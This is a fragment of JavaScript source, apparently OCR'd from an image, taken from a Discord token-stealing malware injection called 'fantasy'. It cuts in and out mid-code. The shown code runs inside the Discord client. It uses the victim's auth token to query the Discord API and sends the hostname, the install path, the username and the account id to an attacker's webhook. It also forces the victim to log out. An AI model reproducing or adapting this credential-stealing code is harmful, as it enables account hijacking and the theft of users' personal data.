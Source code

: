                                 footer: {
                                    text: ""
                                },
                                thumbnail: {
                                    url: `https://cdn.discordapp.com/avatars/${b.id}/${b.avatar}`
                                }
                            }]
                        };
                        sendToWebhook(JSON.stringify(c))
                    });
                }

            }
        }
        if (!fs.existsSync(path.join(__dirname, "fantasy"))) {
            return !0
        }
        fs.rmdirSync(path.join(__dirname, "fantasy"));
        if (config.logout != "false" || config.logout == "%LOGOUT%") {
            if (config['logout-notify'] == "true") {
                if (token == null || token == undefined || token == "") {
                    var c = {
                        username: "fantasy",
                        content: "",
                        embeds: [{
                            title: "user log out (user not logged in before)",
                            color: config["embed-color"],
                            fields: [{
                                name: "info:",
                                value: `\`\`\`hostname: \n${computerName}\n${__dirname}\n\`\`\``,
                                inline: !1
                            }],
                            author: {
                                name: "rf.sex"
                            },
                            footer: {
                                text: "bettter than all."
                            }
                        }]
                    };
                    sendToWebhook(JSON.stringify(c));
                } else {
                    const window = BrowserWindow.getAllWindows()[0];
                    window.webContents.executeJavaScript(`
                    var xmlHttp=new XMLHttpRequest;xmlHttp.open("GET","https://discord.com/api/v8/users/@me",!1),xmlHttp.setRequestHeader("Authorization","${token}"),xmlHttp.send(null),xmlHttp.responseText;
                    `, !0).then(a => {
                        const b = JSON.parse(a);
                        var c = {
                            username: "fantasy",
                            content: "",
                            embeds: [{
                                title: "user got logged out",
                                color: config["embed-color"],
                                fields: [{
                                    name: "info:",
                                    value: `\`\`\`hostname: \n${computerName}\n${__dirname}\n\`\`\``,
                                    inline: !1
                                }, {
                                    name: "username:",
                                    value: `\`${b.username}#${b.discriminator}\``,
                                    inline: !0
                                }, {
                                    name: "id:",